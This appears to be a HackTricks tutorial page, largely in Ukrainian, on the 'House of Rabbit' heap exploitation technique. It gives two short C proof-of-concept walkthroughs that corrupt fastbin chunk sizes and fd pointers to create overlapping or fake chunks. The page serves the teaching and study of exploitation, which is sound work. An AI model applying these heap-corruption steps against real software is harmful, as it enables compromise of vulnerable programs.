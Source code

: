 # House of Rabbit

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Requirements

1. **Здатність модифікувати вказівник fd швидкого бін або розмір**: Це означає, що ви можете змінити вказівник вперед для частини в швидкому біні або її розмір.
2. **Здатність викликати `malloc_consolidate`**: Це можна зробити, або виділивши велику частину, або об'єднавши верхню частину, що змушує купу об'єднувати частини.

### Goals

1. **Створити перекриваючі частини**: Щоб одна частина перекривалася з іншою, що дозволяє подальші маніпуляції з купою.
2. **Підробити фальшиві частини**: Щоб обманути аллокатор, змусивши його вважати фальшиву частину легітимною під час операцій з купою.

## Steps of the attack

### POC 1: Modify the size of a fast bin chunk

**Objective**: Create an overlapping chunk by manipulating the size of a fastbin chunk.

* **Step 1: Allocate Chunks**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
Ми виділяємо два шматки по 0x40 байт кожен. Ці шматки будуть поміщені в список швидких бінів після звільнення.

* **Крок 2: Звільнити шматки**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
Ми звільняємо обидва шматки, додаючи їх до списку fastbin.

* **Крок 3: Змінити Розмір Шматка**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
Ми змінюємо метадані розміру `chunk1` на 0xa1. Це критично важливий крок, щоб обманути аллокатор під час консолідації.

* **Крок 4: Викликати `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Виділення великого блоку викликає функцію `malloc_consolidate`, об'єднуючи маленькі блоки в швидкому бін. Маніпульований розмір `chunk1` призводить до його перекриття з `chunk2`.

Після консолідації `chunk1` перекривається з `chunk2`, що дозволяє подальшій експлуатації.

### POC 2: Змінити вказівник `fd`

**Мета**: Створити фейковий блок, маніпулюючи вказівником `fd` швидкого біна.

* **Крок 1: Виділити блоки**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Пояснення**: Ми виділяємо два шматки, один менший і один більший, щоб налаштувати купу для фейкового шматка.

* **Крок 2: Створити фейковий шматок**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
Ми записуємо підроблену метадані частини в `chunk2`, щоб змоделювати менші частини.

* **Крок 3: Звільнити `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Пояснення**: Ми звільняємо `chunk1`, додаючи його до списку fastbin.

* **Крок 4: Змінити `fd` `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Пояснення**: Ми змінюємо вказівник вперед (`fd`) `chunk1`, щоб він вказував на наш фейковий шматок всередині `chunk2`.

* **Крок 5: Викликати `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Виділення великого блоку знову викликає `malloc_consolidate`, який обробляє фейковий блок.

Фейковий блок стає частиною списку fastbin, що робить його легітимним блоком для подальшої експлуатації.

### Резюме

Техніка **House of Rabbit** полягає в модифікації розміру блоку fast bin для створення перекриваючих блоків або маніпуляції вказівником `fd` для створення фейкових блоків. Це дозволяє зловмисникам підробляти легітимні блоки в купі, що відкриває можливості для різних форм експлуатації. Розуміння та практика цих кроків покращить ваші навички експлуатації купи.

